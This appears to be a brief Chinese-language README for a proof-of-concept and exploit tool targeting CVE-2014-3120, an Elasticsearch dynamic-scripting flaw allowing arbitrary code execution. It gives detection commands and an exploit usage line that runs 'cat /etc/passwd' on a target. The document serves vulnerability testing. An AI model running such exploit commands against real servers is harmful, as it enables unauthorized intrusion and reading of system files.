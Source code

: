 Elasticsearch 1.2版本及之前的默认配置启用了动态脚本，攻击者可以通过_search的source参数执行任意MVEL表达式和Java代码。需要注意的是，只有在用户没有在独立的虚拟机中运行Elasticsearch时，这才违反了供应商的安全策略。

单个检测：python3 .\CVE-2014-3120-POC.py -t "http://0.0.0.0:1234/"
批量检测：python3 .\CVE-2014-3120-POC.py -f "url.txt"
漏洞利用：./CVE-2014-3120-EXP.* -t URL(http://x.x.x.x/) -c command(cat /etc/passwd) 
